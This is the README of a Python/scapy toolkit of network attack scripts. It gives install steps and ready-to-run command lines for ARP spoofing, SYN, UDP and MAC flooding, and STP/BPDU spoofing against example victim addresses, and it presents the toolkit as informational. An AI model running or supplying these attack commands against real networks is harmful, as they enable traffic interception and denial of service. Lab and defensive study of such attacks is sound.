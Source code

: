 # seatre

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/seatre?style=for-the-badge)](https://github.com/nadzyah/seatre/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For informational purposes only.** 

Any contributor to this project doesn't take any responsibility for illegal usage of any script from this project.

See the article about how to use it [here](https://medium.com/@nadzeya/exploring-your-networks-vulnerabilities-can-you-hack-it-836aee46c156).

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `app.py` from a checkout of the code, or install it like any other python project. Keep in mind that a lot of scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install seatre
$ sudo seatre
usage: seatre [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `seatre` command.

To get the attack description in the terminal, enter `seatre <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

Example usage:

```bash
$ sudo seatre --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo seatre arpspoof --help` to get more information.

## SYN Flood

Example usage:

```bash
$ sudo seatre --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo seatre synflood --help` to get more information.

## UDP Flood

Example usage:

```bash
$ sudo seatre --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo seatre udpflood --help` to get more information.

## MAC Flood

Example usage:

```bash
$ sudo seatre --debug macflood -i wlp2s0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo seatre macflood --help` to get more information.

## BPDU Spoofing

Example usage:

```bash
sudo seatre --debug stpspoof -i wlp2s0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 4096
```

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — your MAC-address
* `bb:bb:bb:bb:bb:bb` — victim switch's MAC-address
* `4096` — priority for choosing the root switch (the lower the number, the higher the priority, so make sure it's low enough to become the root). Must be divisible by 4096
